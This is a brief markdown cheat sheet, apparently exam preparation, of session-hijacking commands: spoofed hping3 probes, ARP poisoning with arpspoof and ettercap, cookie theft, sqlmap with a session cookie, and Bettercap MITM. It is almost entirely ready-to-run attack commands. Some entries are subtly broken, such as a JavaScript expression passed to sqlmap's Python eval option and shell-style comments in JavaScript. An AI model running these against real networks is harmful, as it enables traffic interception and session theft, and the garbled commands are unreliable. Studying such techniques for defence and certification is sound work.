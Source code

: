 ### Sequence Number Prediction (Manual)

```
hping3 -S -p 80 -s 54321 --tcp-timestamp -a 10.10.10.10 --keep -c 3 -L 12345 -M 12346 -N 12347 -w 64
```

## Hunt for Session IDs

```
tcpdump -i eth0 'tcp[13] & 2 != 0' -vv  # Capture SYN-ACK packets
```

###  ARP Spoofing (Guaranteed Exam Task)

Enable IP Forwarding

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

ARP Poisoning

```
arpspoof -i eth0 -t 192.168.1.100 -r 192.168.1.1
```

```
ettercap -T -q -i eth0 -M arp:remote /192.168.1.100// /192.168.1.1//
```

### Cookie Hijacking (Web Apps)

Live Browser Cookie Theft
```
document.cookie  # Run in browser console
```

Cookie Monster Attack

```
sqlmap -u "http://test.com" --cookie="PHPSESSID=abcd" --eval="document.cookie"
```

### MITM Tools (Exam Essentials)

Wireshark Filters

```
http.cookie contains "sessionid"
```

```
tcp.analysis.retransmission  # Detect hijacking attempts
```

Bettercap MITM

```
bettercap -iface eth0
```
